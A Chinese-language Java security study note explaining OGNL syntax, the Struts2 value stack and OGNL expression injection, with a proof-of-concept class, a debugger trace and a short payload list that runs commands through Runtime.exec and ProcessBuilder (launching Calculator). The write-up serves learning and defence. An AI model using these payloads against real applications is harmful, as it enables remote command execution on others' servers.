


# Java安全学习—OGNL表达式注入

Author: H3rmesk1t

Data: 2022.03.18

# OGNL 简介
[OGNL](https://commons.apache.org/proper/commons-ognl/) stands for Object-Graph Navigation Language; it is an expression language for getting and setting properties of Java objects, plus other extras such as list projection and selection and lambda expressions. You use the same expression for both getting and setting the value of a property.

The Ognl class contains convenience methods for evaluating OGNL expressions. You can do this in two stages, parsing an expression into an internal form and then using that internal form to either set or get the value of a property; or you can do it in a single stage, and get or set a property using the String form of the expression directly.

# OGNL 三要素
 - 表达式(Expression): 表达式是整个`OGNL`的核心内容, 所有的`OGNL`操作都是针对表达式解析后进行的. 通过表达式来告诉`OGNL`操作要干些什么. 因此, 表达式其实是一个带有语法含义的字符串, 整个字符串将规定操作的类型和内容. `OGNL`表达式支持大量的表达式, 如"链式访问对象"、表达式计算、甚至还支持`Lambda`表达式.
 - `Root`对象: `OGNL`的`Root`对象可以理解为`OGNL`的操作对象. 当指定了一个表达式的时候, 需要指定这个表达式针对的是哪个具体的对象. 而这个具体的对象就是`Root`对象, 这就意味着, 如果有一个`OGNL`表达式, 则需要针对`Root`对象来进行`OGNL`表达式的计算并且返回结果.
 - 上下文环境: 有个`Root`对象和表达式, 就可以使用`OGNL`进行简单的操作了, 如对`Root`对象的赋值与取值操作. 但是, 实际上在`OGNL`的内部, 所有的操作都会在一个特定的数据环境中运行. 这个数据环境就是上下文环境(Context). `OGNL`的上下文环境是一个`Map`结构, 称之为`OgnlContext`. `Root`对象也会被添加到上下文环境当中去, 简而言之, 上下文就是一个`MAP`结构, 它实现了`java.utils.Map`的接口.

在`Struct2`中`ActionContex`即`OGNL`的`Context`, 其中包含的`ValueStack`即为`OGNL`的`Root`.

## ActionContext
`ActionContext`是上下文对象, 对应`OGNL`的`Context`, 是一个以`MAP`为结构、利用键值对关系来描述对象中的属性以及值的对象, 简单来说可以理解为一个`action`的小型数据库, 整个`action`生命周期(线程)中所使用的数据都在这个`ActionContext`中.

<div align=center></div>

除了三个常见的作用域`request`、`session`、`application`外, 还有以下三个作用域:
 - `attr`: 保存着上面三个作用域的所有属性, 如果有重复的则以`request`域中的属性为基准;
 - `paramters`: 保存的是表单提交的参数;
 - `VALUE_STACK`: 值栈, 保存着`valueStack`对象, 也就是说可以通过`ActionContext`访问到`valueStack`中的值.

## ValueStack
值栈(ValueStack)就是`OGNL`表达式存取数据的地方. 在一个值栈中封装了一次请求所需要的所有数据.

在使用`Struts2`的项目中, `Struts2`会为每个请求创建一个新的值栈, 也就是说, 值栈和请求是一一对应的关系, 这种一一对应的关系使值栈能够线程安全地为每个请求提供公共的数据存取服务.

值栈可以作为一个数据中转站在前台与后台之间传递数据, 最常见的就是将`Struts2`的标签与`OGNL`表达式结合使用. 值栈实际上是一个接口, 在`Struts2`中利用`OGNL`时, 实际上使用的就是实现了该接口的`OgnlValueStack`类, 这个类是`OGNL`的基础. 值栈贯穿整个`Action`的生命周期, 每个`Action`类的对象实例都拥有一个`ValueStack`对象, 在`ValueStack`对象中保存了当前`Action`对象和其他相关对象. 要获取值栈中存储的数据, 首先应该获取值栈, 值栈的获取有两种方式.

### 在 request 中获取值栈
`ValueStack`对象在`request`范围内的存储方式为`request.setAttribute("struts.valueStack",valuestack)`, 可以通过如下方式从`request`中取出值栈的信息:

```java
//获取 ValueStack 对象，通过 request 对象获取
ValueStack valueStack = (ValueStack)ServletActionContext.getRequest().getAttribute(ServletActionContext.STRUTS_VALUESTACK_KEY);
```

### 在 ActionContext 中获取值栈
在使用`Struts2`框架时, 可以使用`OGNL`操作`Context`对象从`ValueStack`中存取数据, 也就是说, 可以从`Context`对象中获取`ValueStack`对象. 实际上, `Struts2`框架中的`Context`对象就是`ActionContext`.

`ActionContext`获取`ValueStack`对象的方式如下所示:

```java
// 通过 ActionContext 获取 valueStack 对象.
ValueStack valueStack = ActionContext.getContext().getValueStack();
```

`ActionContext`对象是在`StrutsPrepareAndExcuteFilter#doFilter`方法中被创建的, 在源码中用于创建`ActionContext`对象的`createActionContext`方法内可以找到获取的`ValueStack`对象的信息. 方法中还有这样一段代码: 

```java
ctx = new ActionContext(stack.getContext());
```

从上述代码中可以看出, `ValueStack`对象中的`Context`对象被作为参数传递给了`ActionContext`对象, 这也就说明`ActionContext`对象中持有了`ValueStack`对象的引用, 因此可以通过`ActionContext`对象获取`ValueStack`对象.

# OGNL 基本语法
`OGNL`支持各种纷繁复杂的表达式, 但是最最基本的表达式的原型是将对象的引用值用点从左到右串联起来, 每一次表达式计算返回的结果成为当前对象, 后面部分接着在当前对象上进行计算, 一直到全部表达式计算完成, 返回最后得到的对象. `OGNL`则针对这条基本原则进行不断的扩充, 从而使之支持对象树、数组、容器的访问, 甚至是类似`SQL`中的投影选择等操作.

## 基本对象树访问
对象树的访问就是通过使用点号将对象的引用串联起来进行, 例如:

```java
xxxx
xxxx.xxxx
xxxx.xxxx.xxxx
```

## 容器变量访问
对容器变量的访问, 是通过`#`加上表达式进行的, 例如:

```java
#xxxx
#xxxx.xxxx
#xxxx.xxxx.xxxx.xxxx
```

## 操作符号
`OGNL`表达式中能使用的操作符基本跟`Java`里的操作符一样, 除了能使用`+`, `-`, `*`, `/`, `++`, `--`, `==`, `!=`, `=`等操作符外, 还能使用`mod`, `in`, `not in`等.

## 容器、数组、对象
`OGNL`支持对数组和`ArrayList`等容器的顺序访问, 例如: `group.users[0]`. 同时, `OGNL`支持对`Map`的按键值查找, 例如: `#session['mySessionPropKey']`. 不仅如此, `OGNL`还支持容器的构造的表达式, 例如: `{"green", "red", "blue"}`构造一个`List`, `#{"key1" : "value1", "key2" : "value2", "key3" : "value3"}`构造一个`Map`. 也可以通过任意类对象的构造函数进行对象新建, 例如: `new Java.net.URL("xxxxxx/")`.

## 静态方法或变量的访问
要引用类的静态方法和字段, 它们的表达方式是一样的`@class@member`或者`@class@method(args)`, 例如: `@com.javaeye.core.Resource@ENABLE`, `@com.javaeye.core.Resource@getAllResources`.

## 方法调用
直接通过类似`Java`的方法调用方式进行, 甚至可以传递参数, 例如: `user.getName()`, `group.users.size()`, `group.containsUser(#requestUser)`.

## 投影和选择
`OGNL`支持类似数据库中的投影(projection)和选择(selection).

投影就是选出集合中每个元素的相同属性组成新的集合, 类似于关系数据库的字段操作, 投影操作语法为`collection.{XXX}`, 其中`XXX`是这个集合中每个元素的公共属性, 例如: `group.userList.{username}`将获得某个`group`中的所有`user`的`name`的列表.

选择就是过滤满足`selection`条件的集合元素, 类似于关系数据库的纪录操作, 选择操作的语法为: `collection.{X YYY}`, 其中`X`是一个选择操作符, 后面则是选择用的逻辑表达式. 而选择操作符有三种:
 - `?`选择满足条件的所有元素.
 - `^`选择满足条件的第一个元素.
 - `$`选择满足条件的最后一个元素.

例如: `group.userList.{? #txxx.xxx != null}`将获得某个`group`中`user`的`name`不为空的`user`的列表.

# OGNL 语法树
`OGNL`语法树有两种形式, 每个括号对应语法树上的一个分支, 并且从最右边的叶子节点开始解析执行:
 - (expression)(constant) = value
 - (constant)((expression1)(expression2))

# 其它
## . 符号
所有的`OGNL`表达式都基于当前对象的上下文来完成求值运算, 链的前面部分的结果将作为后面求值的上下文, 例如:

```java
name.toCharArray()[0].numbericValue.toString()
```

 - 提取根(`root`)对象的`name`属性.
 - 调用上一步返回的结果字符串的`toCharArray`方法.
 - 提取返回结果数组的第一个字符.
 - 获取字符的`numbericValue`属性, 该字符是一个`Character`对象, `Character`类有个`getNumeericValue`方法.
 - 调用结果`Integer`对象的`toString`方法.

## %, #, $ 的区别
### # 符
`#`符主要有三种用途:
 - 访问非根对象属性, 即访问`OGNL`上下文和`Action`上下文, 由于`Struts2`中值栈被视为根对象, 所以访问其他非根对象时需要加`#`前缀, `#`相当于`ActionContext.getContext()`;
 - 用于过滤和投影(`projecting`)集合, 例如: `books.{? #this.price<100}`;
 - 用于构造`Map`, 例如`#{'foo1':'bar1', 'foo2':'bar2'}`.

### % 符
`%`符的用途是在标志的属性为字符串类型时, 告诉执行环境`%{}`里的是`OGNL`表达式并计算表达式的值.

### $ 符
`$`符的主要作用是在相关配置文件中引入`OGNL`表达式, 让其在配置文件中也能解析`OGNL`表达式.

## ., #, @ 的区别
 - 获取静态函数和变量的时候用`@`.
 - 获取非静态函数用`.`号.
 - 获取非静态变量用`#`.

# OGNL 与 EL 的区别
 1. `OGNL`表达式是`Struts2`的默认表达式语言, 所以只针对`Struts2`标签有效; 然而`EL`在`HTML`中也可以使用.
 2. `Struts2`标签用的都是`OGNL`表达式语言, 所以它多数都是去值栈的栈顶找值, 找不到再去作用域; 相反, `EL`都是去`Map`集合作用域中找.

# 能解析 OGNL 的 API
能解析`OGNL`的`API`如下表所示:

|类名|方法名|
|:----:|:----:|
|com.opensymphony.xwork2.util.TextParseUtil|translateVariables, translateVariablesCollection|
|com.opensymphony.xwork2.util.TextParser|evaluate|
|com.opensymphony.xwork2.util.OgnlTextParser|evaluate|
|com.opensymphony.xwork2.ognl.OgnlUtil|setProperties, setProperty, setValue, getValue, callMethod, compile|
|org.apache.struts2.util.VelocityStrutsUtil|evaluate|
|org.apache.struts2.util.StrutsUtil|isTrue, findString, findValue, getText, translateVariables, makeSelectList|
|org.apache.struts2.views.jsp.ui.OgnlTool|findValue|
|com.opensymphony.xwork2.util.ValueStack|findString, findValue, setValue, setParameter|
|com.opensymphony.xwork2.ognl.OgnlValueStack|findString, findValue, setValue, setParameter, trySetValue|
|ognl.Ognl|parseExpression, getValue, setValue|

调用过程中可能会涉及到的一些类:

|涉及类名|方法名|
|:----:|:----:|
|com.opensymphony.xwork2.ognl.OgnlReflectionProvider|getGetMethod, getSetMethod, getField, setProperties, setProperty, getValue, setValue|
|com.opensymphony.xwork2.util.reflection.ReflectionProvider|getGetMethod, getSetMethod, getField, setProperties, setProperty, getValue, setValue|

# OGNL 表达式注入漏洞
## 漏洞原理
上文中讲到了`OGNL`可以访问静态方法、属性以及对象方法等, 其中包含可以执行恶意操作如命令执行的类`java.lang.Runtime`等, 当`OGNL`表达式外部可控时, 攻击者就可以构造恶意的`OGNL`表达式来让程序执行恶意操作, 这就是`OGNL`表达式注入漏洞.

## POC
可以看到`getValue`和`setValue`都能成功解析恶意的`OGNL`表达式.


```java
package h3rmek1t.javawebsecurity;

import ognl.Ognl;
import ognl.OgnlContext;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/19 1:34 上午
 */
public class ognlExploit {

    public static void main(String[] args) throws Exception {

        // 创建一个 OGNL 上下文对象.
        OgnlContext ognlContext = new OgnlContext();

        // 触发 getValue.
        Ognl.getValue("@java.lang.Runtime@getRuntime().exec('open -a Calculator')", ognlContext, ognlContext.getRoot());

        // 触发 setValue.
        Ognl.setValue(Runtime.getRuntime().exec("open -a Calculator"), ognlContext, ognlContext.getRoot());
    }
}
```

<div align=center></div>

<div align=center></div>

## 过程分析
在`Ognl.getValue`处打下断点, 跟进`Ognl#getValue`方法, 会调用`Ognl#parseExpression`方法, 该方法将传入的`String`类型的字符串解析为`OGNL`表达式能理解的`ASTChain`类型.

<div align=center></div>

接着将传入的`ASTChain`类型的`tree`参数转换成`Node`类型(`ASTChain`继承自`SimpleNode`、`SimpleNode`继承自`Node`), 再调用其`getValue`函数继续解析.

<div align=center></div>

跟进`SimpleNode#evaluateGetValueBody`, 可以看到其会继续调用`getValueBody`方法.

<div align=center></div>

接着跟进`ASTMethod#getValueBody`, 这里会循环解析`ASTChain`中每个节点的表达式, 这里有两个子节点, 首先会解析第一个节点即`@java.lang.Runtime@getRuntime()`这个`OGNL`表达式, 接着会调用`OgnlRuntime#callMethod`.

<div align=center></div>

跟进`OgnlRuntime#callMethod`, 接着会调用`ObjectMethodAccessor#callMethod`, 获取到`java.lang.Runtime`类的`getRuntime`方法后, 会进一步调用`OgnlRuntime#callAppropriateMethod`方法进行解析.

<div align=center></div>

<div align=center></div>

跟进`OgnlRuntime#callAppropriateMethod`中, 这里通过调用`invokeMethod`函数来实现`OGNL`表达式中的类方法的调用.

<div align=center></div>

跟进`invokeMethod`函数, 会调用`Method.invoke`, 即通过反射机制实现`java.lang.Runtime.getRuntime`方法的调用.

<div align=center></div>

<div align=center></div>

简单地说, `OGNL`表达式的`getValue`解析过程就是先将整个`OGNL`表达式按照语法树分为几个子节点树, 然后循环遍历解析各个子节点树上的`OGNL`表达式, 其中通过`Method.invoke`即反射的方式实现任意类方法调用, 将各个节点解析获取到的类方法通过`ASTChain`链的方式串连起来实现完整的表达式解析、得到完整的类方法调用.

# Payload
```java
// 获取 Context 里面的变量.
 #user
 #user.name

// 使用 Runtime 执行系统命令.
@java.lang.Runtime@getRuntime().exec("open -a Calculator")


// 使用 Processbuilder 执行系统命令.
(new java.lang.ProcessBuilder(new java.lang.String[]{"open", "-a", "Calculator"})).start()

// 获取当前路径.
@java.lang.System@getProperty("user.dir")
```

# 参考
 - [OGNL表达式注入漏洞总结](https://www.mi1k7ea.com/2020/03/16/OGNL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/)